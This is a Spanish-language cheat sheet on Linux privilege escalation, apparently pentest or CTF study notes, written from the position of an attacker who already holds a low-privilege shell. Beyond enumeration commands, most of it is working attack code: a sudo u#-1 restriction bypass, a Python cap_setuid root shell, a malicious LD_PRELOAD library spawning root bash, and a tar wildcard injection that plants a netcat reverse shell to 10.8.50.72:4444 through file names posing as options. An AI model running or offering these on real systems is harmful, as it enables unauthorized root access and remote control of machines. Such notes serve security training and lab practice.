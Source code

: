 # Escalada de privilegios en Linux

Se definen en esta página las principales técnicas de escalada de privilegios en máquinas Linux.

Se supone siempre que acabamos de comprometer una máquina y tenemos acceso a ella con un usuario de bajos privilegios.

## Enumeración de la máquina comprometida.

Hay una serie de comandos que siempre debemos lanzar al comprometer una máquina.

Comenzamos.

### whoami, id, ifconfig, ip a

* El comando **whoami** nos dice que usuario somos.
* El comando **id**  nos dice que usuario somos, pero ademas nos muestra los grupos en los que estamos.
* El comando **ifconfig** nos dice la ip que tenemos. Si no coincide con la que hemos trabajado es que estamos en un contenedor.
* El comando **ip a** hace lo mismo que **ifconfig** cuando este no funciona. Depende de la versión de linux.

![](/.gitbook/assets/escal01.png)

### Datos del sistema. uname -a, cat /etc/lsb-release

* El comando **uname -a** nos devuelve la versión de Linux que se ejecuta. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 
* El comando **cat /etc/lsb-release** nos devuelve la información exacta de la distribución. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 

![](/.gitbook/assets/escal02.png)

## Técnicas rutinarias

### Buscar ficheros **config** o **backup**

Sobre todo si estamos en un directorio de aplicación php, podemos buscar por el patrón config. Es posible obtener donde se configura la aplicación con el usuario de base de datos.

```bash
# Desde el directorio actual
find . -name *config*
# todo el sistema
find / -name *config*
```

También se puede hacer lo mismo con la palabra buckup, buscando posibles zips.

## Revisar los permisos sudo

Si tenemos la contraseña del usuario, podemos ver si tiene permisos sudo con **sudo -l**. Podemos ver si nos podemos aprovechar de algún permiso sudo para escalar privilegios.

![](/.gitbook/assets/kio33.png)

## Restricciones de sudo

Si tenemos una restricción en los permisos sudo, como **!root** podemos saltarnosla en versiones antiguas de sudo con **u#-1**..

```console
sudo u#-1 sqlite3 /dev/null '.shell /bin/bash'
```



## Buscar ficheros con permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null
```

## Ver procesos

```bash
ps -faux
```


### Capabilities

```bash
getcup -r / 2>/dev/null

```

#### Python cap_setuid

En caso de encontrar una capability **cap_setuid** esta permite cambiar de usuario. En el caso de python es muy sencillo:

```bash
python
import os
os.setuid(0)
os.system("bash")

```

## Otros

Trazas icmp

```bash
sudo tcpdump -i tun0 icmp -n
```

## Técnicas especificas.

### Sudo de ficheros binarios con la opción 

Si tenemos como opción en **sudo** la ejecución de un fichero binario y ademas tenemos la opción de enviar parametros en PRELOAD, ver la imagen:

![](/.gitbook/assets/sudo-preload.png)

Entonces podemos crearnos un módulo de preload malicioso. Creamos el fichero shell.c con el siguiente código c:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```

Luego lo compilamos como **shell.so**:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
``` 

Y ya podemos ejecutar el binario como sudo cargando el módulo:

```bash
sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility
``` 

### Explotacion de comando **tar**:

```bash
server-management@vulnnet:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f" > /home/server-management/Documents/rev.sh
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint=1"
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
```